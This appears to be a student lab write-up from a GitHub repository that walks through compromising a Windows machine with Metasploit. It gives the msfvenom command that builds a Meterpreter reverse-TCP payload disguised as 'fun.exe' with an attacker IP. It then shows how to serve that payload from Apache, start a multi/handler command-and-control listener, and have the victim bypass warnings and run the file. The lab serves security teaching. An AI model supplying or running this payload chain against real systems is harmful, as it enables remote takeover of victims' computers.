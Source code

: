 # EX-6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/6305f05a-7760-46cc-86e0-a02b10489d73)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/e6878cd8-282f-46db-89e8-36944721bad7)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/116de4cc-d9ba-4b5a-99ec-da62e7705f77)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19784f1-a936-4564-905b-696a26f92904)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/31b20403-1a34-422e-9c8b-204521d0ab2d)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/a76d98f7-9e6e-426e-9e81-b6399d698f46)
![image](https://github.com/user-attachments/assets/47a8b14f-fa98-492e-9bda-3cefdfbe0f21)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/user-attachments/assets/1b05bcd6-b621-44df-b7d8-f89d13433da6)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT:
![image](https://github.com/user-attachments/assets/a01cffbc-6ec1-4eaa-8c7d-dcc54cf499bf)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/user-attachments/assets/e4ad8749-3d43-489d-a527-1acc52ce46e6)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

